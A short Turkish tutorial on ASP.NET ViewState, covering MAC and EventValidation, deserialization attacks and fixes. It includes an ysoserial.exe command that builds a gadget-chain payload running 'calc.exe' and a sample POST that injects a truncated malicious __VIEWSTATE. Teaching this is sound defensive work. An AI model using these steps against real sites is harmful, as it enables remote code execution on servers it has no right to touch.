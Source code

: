 # ViewState Nedir?
ASP.NET sayfalarının ve kontrollerin durum bilgisini saklayan yapıdır. Sunucu, istemci, sunucu arasında _VIEWSTATE hidden input alanı ile taşınır. Serialize edilmiş  veri içerir. ASP.NET tarafından default olarak LosFormatter ile serileştirilir, ObjectStateFormatter ile deserialize edilir.

# Güvenlik Mekanizmaları
## MAC (Message Authentication Code)
ViewState’in değiştirilip değiştirilmediğini doğrular. EnableViewStateMac=true ise devrede olur. MAC kapalıysa saldırgan ViewState’i manipüle edebilir.

## EventValidation
Sunucuya gönderilen değerlerin beklenen/güvenilir değerlerden olup olmadığını kontrol eder. Kapatılırsa key injection veya postback manipulation gibi saldırılar yapılabilir.

# ViewState Deserialization
Eğer ViewState şifrelenmemiş ve machineKey biliniyorsa / zayıfsa, saldırgan zararlı ViewState payload’ı hazırlayabilir. Bu payload deserialize edilirken çalıştırılır.

Saldırgan gadget chain kullanarak zararlı ViewState üretir. Bu payload deserialize edilirken zararlı kod çalıştırılır.
Örnek:
```
ysoserial.exe -f LosFormatter -g TypeConfuseDelegate -o base64 -c "calc.exe"
```

```
POST /vulnerable.aspx HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 

__VIEWSTATE=/wEPDwUJODg3NzQ2NjQ5ZGQ... (ysoserial.net ile hazırlanmış zararlı payload)
```

Bu base64 payload, _VIEWSTATE input alanına enjekte edilir.

# ViewState Güvenliği
MAC’i Açık Tut
```
<%@ Page EnableViewStateMac="true" %>
```

ViewState’i Şifrele
```
<%@ Page ViewStateEncryptionMode="Always" %>
```


